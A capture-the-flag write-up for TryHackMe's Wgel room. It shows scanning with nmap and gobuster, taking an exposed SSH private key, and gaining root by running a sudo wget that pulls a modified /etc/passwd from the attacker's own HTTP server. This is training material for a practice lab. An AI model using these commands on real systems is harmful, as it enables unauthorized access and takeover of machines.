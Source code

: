## Wgel CTF - Try Hack Me

## 1. Overview
This box was rated as *easy* on tryhackme.com and has only two tasks. Get the user.txt flag and the root.txt flag. At first we use **NMAP** and **Gobuster** to scan the target machine. Further, we found an **ida_rsa private key** that we used in order to log into one of the users through ssh. Then we transfered over **linpeas** and made a scan on the machine from the inside. We figured out that the user could run `wget` as root. So in order to priv esc, we changed the whole `/etc/passwd` file, changing the root password, so that we could simply log into root with our newly created password.  

Link to the machine: https://tryhackme.com/room/wgelctf

## 2. Tasks
### 2.1 User.txt

```sh
export IP=10.10.90.195
```

First we do a **NMAP** scan:
```sh
nmap -sV -sC -oN nmap/initial $IP
```

Looking through the web sourcecode we found the username ***Jessie***

Did a **gobuster** scan with a different wordlist than usual:
```sh
gobuster dir -u http://$IP/sitemap -w /usr/share/dirb/wordlists/common.txt -o gobuster.log
```

The scan gave us this output:
```sh
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.ssh (Status: 301)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
```

The only one accessable is .ssh, and in there we find a `id_rsa` file. We can use this private key to get into Jessie's user with ssh.

Made a file called `jessie_rsa` in order to use it as a entry point. Have to use `chmod 600` on it since ssh requires it to be restricted to other users on that system:
```sh
chmod 600 jessie_rsa
ssh -i jessie_rsa jessie@$IP
```

It worked, and we can now poke around to find the file called `user_flag.txt` and just `cat` it out.

### 2.2 Privesc and root.txt
Initially we start suing the *Linpeas* scrip to look for possible privesc methods. We then use the ssh `scp` command to copy `linpeas.sh` over to the target since we are logged in on ssh:
```sh
scp -i jessie_rsa ./linpeas.sh jessie@10.10.90.195:/dev/shm
```

Got this from the linpeas script:
```sh
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

That means we can use `wget` to potentially get root access to the machine. This can be done in just a few steps:

- First we copy the content of `/etc/passwd` on the victims machine  
- Then we modify it and put in our own password as root.
- Finally we overwrite this new passwd file to the victim, so that we can use our new password to log in as root   

We use **python** in order to encrypt our new password for the root user:
```python
import crypt

crypt.crypt("newpass")
```

Then we copy the given string into the root password in the `/etc/passwd` file, so it looks like this:
```
root:$6$HR9170zTgAxPqTZ2$R/7.0y5UTocpZ8j0CJeHLB.zr3usufs9yvSvaX/E7uTkhFE6h1lS0KvufECDIXC846eFSFnS9v/0sqOSJ2uVe1:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```  
After that we set up a http server with python on our own machine, then transfer the *new* `/etc/passwd` file over to the *old* `/etc/passwd` file on the victim machine:    

***On our machine:***
```sh
python3 -m http.server 9001
```

***On the victim machine:***
```sh
sudo wget http://10.8.33.116:9001/passwd -O /etc/passwd
```

Since we can run `wget` as sudo, we can use this to write to the passwd file and overwrite the old file. When that is done we can use the `sudo`, or `su` command in order to get a root-shell:
```sh
su
```
The shell will ask for a password, and we will simply just put in what we made as the password earlier in python. In this case we used "*newpass*".

Finally we can use the `id` or the `whoami` command in order to see what user we are running as. Then we can use the `find` command in order to figure out the location of root.txt:
```sh
find / -name "root.txt" 2>/dev/null
```
